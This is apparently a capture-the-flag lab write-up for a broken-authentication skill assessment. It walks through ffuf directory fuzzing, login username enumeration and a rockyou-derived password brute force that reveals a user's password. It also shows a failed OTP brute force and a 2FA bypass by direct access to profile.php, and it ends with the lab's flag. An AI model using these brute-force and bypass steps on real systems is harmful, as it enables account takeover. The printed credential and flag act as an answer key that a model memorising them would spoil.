






Hi guys !!! Welcome to my wu about Broken authentication - skill assessment. 

Well i have hand on some practices with this aspect before so in this module is not too hard for me.

Alright lets go !!!!

# Part 1: Recon

```php
└─$ ffuf -w common.txt -u http://83.136.251.11:41570//FUZZ -e .php,.html

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://83.136.251.11:41570//FUZZ
 :: Wordlist         : FUZZ: /home/kali/Downloads/Wordlist/common.txt
 :: Extensions       : .php .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.hta                    [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 208ms]
.hta.php                [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 207ms]
.hta.html               [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 209ms]
.htaccess               [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 209ms]
.htaccess.php           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 210ms]
.htaccess.html          [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 210ms]
.htpasswd               [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 209ms]
.htpasswd.php           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 210ms]
.htpasswd.html          [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 210ms]
assets                  [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 208ms]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 214ms]
css                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 218ms]
db.php                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 220ms]
index.php               [Status: 200, Size: 6995, Words: 1375, Lines: 129, Duration: 215ms]
index.php               [Status: 200, Size: 6995, Words: 1375, Lines: 129, Duration: 217ms]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 223ms]
login.php               [Status: 200, Size: 4253, Words: 656, Lines: 91, Duration: 217ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 215ms]
profile.php             [Status: 302, Size: 3717, Words: 606, Lines: 78, Duration: 226ms]
register.php            [Status: 200, Size: 4245, Words: 655, Lines: 91, Duration: 219ms]
server-status           [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 226ms]
:: Progress: [14058/14058] :: Job [1/1] :: 181 req/sec :: Duration: [0:01:21] :: Errors: 0 ::
```

# Part 2 : Exploit

Now we go to the register.php and create an account that suits the rule



Username : `test`

Password  : `Test12345678`



## Scanning for users have own admin role

```php
ffuf -w xato-net-10-million-usernames.txt -u http://83.136.251.11:41570/login.php -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=1234" -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://83.136.251.11:41570/login.php
 :: Wordlist         : FUZZ: /home/kali/Downloads/Wordlist/SecLists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=1234
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

Admin                   [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 272ms]
gladys                  [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 227ms]
ghengis                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 240ms]
berner                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 230ms]
bennys                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 239ms]
bellows                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 231ms]

```

## Scanning `Admin` , `gladys` password that meets the password policy

### #Create wordlist

Using wordlist `rockyou.txt` and generate it like the command below

```php
grep -E '^[A-Za-z0-9]+$' rockyou.txt   | grep '[A-Z]'   | grep '[a-z]'   | grep '[0-9]'   | grep -E '^.{12}$'   > custom_wordlist_for_final_skill_assessment.txt 
```

Here is our result… maybe it can be wrong or not 100% match the rule… you can create yourself one

```php
┌──(kali㉿kali)-[~/…/Wordlist/SecLists/Passwords/Leaked-Databases]
└─$ wc -l custom_wordlist_for_final_skill_assessment2.txt
17048 custom_wordlist_for_final_skill_assessment2.txt
                                                                                                                    
┌──(kali㉿kali)-[~/…/Wordlist/SecLists/Passwords/Leaked-Databases]
└─$ head -10 custom_wordlist_for_final_skill_assessment2.txt
iydgTvmujl6f
Liverpool123
Ronaldinho10
JamesBond007
Friends4ever
Christopher1
fbb71HP6cne8
Playstation3
Playstation2
NastAsya4475

```

At this step i use burpsuitepro intruder for scanning ✌️

As you can see the username: `gladys` have code 302 with the password : `dWinaldasD13`



If you want to using ffuf so here is it payload:

```php
ffuf -w custom_wordlist_for_final_skill_assessment.txt -u http://83.136.251.11:41570/login.php -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://83.136.251.11:41570/login.php
 :: Wordlist         : FUZZ: /home/kali/Downloads/Wordlist/SecLists/Passwords/Leaked-Databases/custom_wordlist_for_final_skill_assessment2.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=gladys&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

dWinaldasD13            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 213ms]

```

## Scanning OTP (❌)

At first I guess It would have 4 digits 

```php
seq -w 0 9999 > 0000_9999.txt
```

```php
**ffuf -w 0000_9999.txt  -u http://94.237.49.88:30609/2fa.php  -H "Content-Type: application/x-www-form-urlencoded" -b "**PHPSESSID=**2723prveqo3jv5o13615lnncsu" -d "otp=FUZZ"  -fr "Invalid OTP."**      

```

After scanning for a while and nothing appear :v I also tried with 6digits but 



Well, i think it should be other way to bypass this 

## **Using Authentication Bypass via Direct Access**

Now we login again and turn intercept on in `BURP`

What is the ideal for it? At the login page we can change the`login.php` to the `profile.php` to retrieve the flag



After done that you can forward !!
And BOOOM we got the flag



Flag :      `HTB{d86115e037388d0fa29280b737fd9171}`